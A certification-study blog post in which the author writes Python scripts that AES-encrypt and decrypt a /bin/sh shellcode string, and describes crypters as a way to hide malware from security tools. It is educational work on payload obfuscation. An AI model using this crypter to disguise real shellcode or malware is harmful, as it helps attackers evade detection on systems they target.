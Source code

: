 ```yaml
---
layout: single
title: "SLAE: Custom Shellcode Crypter"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_7)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

Our 7th and final assignment for SLAE32 we will create a custom shellcode crypter.

Crypters are used to encrypt malware for the purpose of security evasion. It allows malware to masquerade as harmless code until such time it is executed.

The encryption method I have chosen is "Rijndael" (After the designers Vincent Rijmen and Joan Daemen) AKA Advanced Encryption Standard.

Advanced cryptography is a bit beyond my current skill level, however I will attempt to provide a low-level explanation.

AES is a form of symmetric encryption; symmetric meaning the same key used to encrypt is used to decrypt. To contrast this, RSA (typically used for remote connections) is asymmetric, using a public (server) and private (client) key. So in RSA, if you were to encrypt with the public key, the private key would be required to decrypt and vice versa. However with AES the same key that was used in encryption will need to be fed for decryption.

AES256 encrypts in 14 rounds, with 1.1 x 10^77 possible combinations.
Rather than encrypting a string, AES takes the bytes and lays them out in columns within a 4x4 grid.

![grid](/assets/images/SLAE_7/1.JPG) source [computerphile](https://www.youtube.com/watch?v=O4xNJsjtN6E)

It then works through a varying number of rounds where it will xor information against part of the key, substitute bytes and finally permute until we have an incredibly tough cypher.

![AES_round](/assets/images/SLAE_7/2.JPG)

Now that I have finished procrastinating, it is time to look at writing our own.
Luckily for me, Python has modules that can aid this task.
I read up on what is required at the following link: [https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/](https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/)


```
from Crypto.Cipher import AES
import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80") # must be divisible by 16

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes

if len(key)!=16:
	print("[!]key MUST be 16 bytes\n[!]Exiting")
	sys.exit()
if len(iv)!=16:
	print("[!]iv MUST be 16 bytes\n[!]Exiting")
	sys.exit()
cipher = AES.new(key, AES.MODE_CBC, iv)


if len(shellcode)%16 !=0:
	print("[!]shellcode not divisible by 16, padding")
	remainder = len(shellcode)%16 #figure out how many extra chars there are stopping it being divisible by 16
	padnumber = 16 - remainder #figure out how many characters we need to make up the difference
	shellcode = shellcode + ('1' * padnumber) #add exactly that many chars to the end of shellcode, thus making it divisible by 16

print("Padded by "+str(padnumber))
encrypt = cipher.encrypt(shellcode) # use cypher to encrypt ourshellcode against specified key and iv
encoded = ""
for x in bytearray(encrypt): #process code to give us shellcode as we have done in previous assignments
	  encoded += '\\x'
	  encrypt = '%02x' % x
	  encoded += encrypt

print("Encrypted shellcode: "+encoded)
```
Running our code as below gives us our encrypted string

![encrypted](/assets/images/SLAE_7/3.JPG)

Taking the encrypted string and placing it in our decoder before running it yields the exact same shellcode we originally placed in our encrypter script - thus, the string has been decrypted.

```
from Crypto.Cipher import AES
 
shellcode = ("\xc9\xc9\x0f\xaf\xf8\x6c\x82\x69\xa6\x95\x25\x1e\xdd\x5e\xbc\x79\xd0\xec\xdb\xa5\x81\xa0\xfe\x55\x56\x6d\xe8\x7a\xed\x08\xc9\x99")

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes
 
cipher = AES.new(key, AES.MODE_CBC, iv)
padnumber=int("7") 
decrypt = cipher.decrypt(shellcode)
encoded = ""     

for x in bytearray(decrypt):
	  encoded += '\\x'
	  dec = '%02x' % x#(x & 0xff)
	  encoded += dec
 
print encoded[0:-padnumber*4]
```

![decrypted](/assets/images/SLAE_7/4.JPG)

